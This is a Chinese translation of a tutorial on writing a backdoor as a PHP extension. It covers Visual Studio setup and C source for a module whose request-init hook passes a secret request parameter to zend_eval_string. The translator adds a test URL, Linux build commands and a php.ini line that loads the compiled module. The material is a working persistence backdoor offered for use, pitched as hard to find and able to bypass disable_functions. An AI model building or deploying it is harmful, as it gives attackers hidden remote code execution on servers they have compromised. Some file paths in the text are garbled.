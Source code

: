 # 编写基于PHP扩展库的后门

from:[http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/](http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/)

0x00 前言
-------

* * *

今天我们将讨论编写基于PHP扩展库的后门。通常来说，大部分入侵者都会在脚本中留下自定义代码块后门。当然，这些东西很容易通过源代码的静态或动态分析找到。

利用PHP扩展库的好处显而易见：

```
很难寻找
绕过disable_functions选项 
有能力控制所有的代码
访问代码执行的API

```

但是我们需要有编辑PHP配置文件的能力。

0x01 细节
-------

* * *

//【译者注：用linux两条命令搞定了，何必windows费这么大劲】 作为例子，我会用Windows来写。写扩展我用的Visual Studio 2012 Express版本。还需要的源代码最新版本，编译PHP库（可从同一来源收集）。为简单起见，我们需要是的php-5.5.15-Win32的VC11-86和源PHP-5.5.15-src.zip

解压使用C编译PHP:PHP，源代码在C:PHP-SRC。

然后，你需要进行一些设置。

1）添加预处理器定义：

```
ZEND_DEBUG=0 
ZTS=1
ZEND_WIN32 
PHP_WIN32 

```

![enter image description here](http://drops.javaweb.org/uploads/images/4dfcb5eff9228c27c7e82c19433ae44b07cc1a64.jpg)

预处理器定义 2）添加的目录，用于连接源：

```
C: PHP-SRCmain
C: PHP-SRCend
C: PHP-SRCTSRM
C: PHP-SRC
egex
C: PHP-SRC 

```

![enter image description here](http://drops.javaweb.org/uploads/images/5061f05e2edb25ba1a9854b4c7a5972769bd341c.jpg)

其他目录连接

3）添加其他目录中liboy php5ts.lib（C： PHP dev的）

![enter image description here](http://drops.javaweb.org/uploads/images/b0e857445b7d9008b6b3139b41f356f7fa73e38c.jpg)

其他目录库 4）添加连接库php5ts.lib。

![enter image description here](http://drops.javaweb.org/uploads/images/73a1b303fecc588b87cc9c9e9924d5c66ce4838a.jpg)

装配额外的库

5）指定收集文件的路径。

![enter image description here](http://drops.javaweb.org/uploads/images/6494d09d32e9f3e94c96d5eaa6de5630ca97853b.jpg)

保存配置文件 配置参数为Workspace扩展的开发后（详情可以在http://blog.slickedit.com/2007/09/creating-a-php-5-extension-with-visual-c-2005/找到），创建一个新的项目类型后门“控制台应用程序的Win32”。

![enter image description here](http://drops.javaweb.org/uploads/images/7f0ee536980064eb70788956761419b4baa3f2a1.jpg)

在Visual StudioVyberem型“库DLL»项目” 选择合适类型

![enter image description here](http://drops.javaweb.org/uploads/images/348f34d1432acdce03d7108680d6d221a07d838b.jpg)

然后，从项目中删除不必要的文件。应该只需要backdoor.cpp，STDAFX.CPP和stdafx.h中。

在头文件stdafx.h中 ：

```
#pragma once
#ifndef STDAFX
#define STDAFX
#include "zend_config.w32.h" 
#include "php.h"
#endif

```

现在，我们直接进入PHP扩展的代码。删除所有行，并添加所需的文件连接。

```
#include "stdafx.h"
#include "zend_config.w32.h"
#include "php.h"

```

如果workspace设置已经正确，警告就会消失。 当模块被初始化时，会有几个事件，其中每一个都在特定条件下发生。我们需要在查询执行时，去执行我们的代码。要做到这一点，你必须初始化我们所需要的功能，我给它命名为«hideme»。 PHP_RINIT_FUNCTION(hideme); 然后你可以去看模块的初始化。

```
zend_module_entry hideme_ext_module_entry = {
    STANDARD_MODULE_HEADER,
    "simple backdoor",
    NULL,
    NULL,
    NULL,
    PHP_RINIT(hideme),
    NULL, 
    NULL,
    "1.0",
    STANDARD_MODULE_PROPERTIES
};
ZEND_GET_MODULE(hideme_ext);

```

在这篇文章中，我们只需要加载中代码被执行即可，因此运行和卸载模块由空取代。 现在，你可以去看hideme的函数体。

```
PHP_RINIT_FUNCTION(hideme)
{

    char* method = "_POST"; //超全局数组，从中我们采取perametr和价值   char* secret_string = "secret_string"; //参数，这将是运行的代码    
    //【译者注：在原文作者的github代码中method是get，secret_string是execute，请大家按照github代码进行测试，不修改原文了】
    zval** arr;
    char* code;

    if (zend_hash_find(&EG(symbol_table), method, strlen(method) + 1, (void**)&arr) != FAILURE) { 
        HashTable* ht = Z_ARRVAL_P(*arr);
        zval** val;
        if (zend_hash_find(ht, secret_string, strlen(secret_string) + 1, (void**)&val) != FAILURE) { //查找散列表中所需的参数          
    code =  Z_STRVAL_PP(val); //值
    zend_eval_string(code, NULL, (char *)"" TSRMLS_CC); //代码执行
        }
    }
    return SUCCESS;
}

```

注释应该比较清楚。最初，我们设置HTTP方法和参数secret_string。然后再寻找正确的数组参数，如果有的话，我们就从它的值中取指令，并通过zend_eval_string执行代码。 编译后的所得，即可作为一个扩展库。

下载源代码

[https://github.com/akamajoris/php-extension-backdoor](https://github.com/akamajoris/php-extension-backdoor)

0x02 测试
-------

* * *

//以下为译者测试截图：

![enter image description here](http://drops.javaweb.org/uploads/images/b84da5d4e13e2529449ec8a0b23ebf5ec7ab7ba9.jpg)

```
http://127.0.0.1:1629/20140917/test.php?execute=phpinfo();

```

（因为原作者github代码设置的是execute）

Linux编译（kali）

```
apt-get install php5-dev
phpize && ./configure && make

```

在kali下测试一遍成功，我比较懒，直接chmod后把so复制到/var/www了哈哈

然后php.ini加上

```
extension=/var/www/back.so

```

重启apache，测试成功
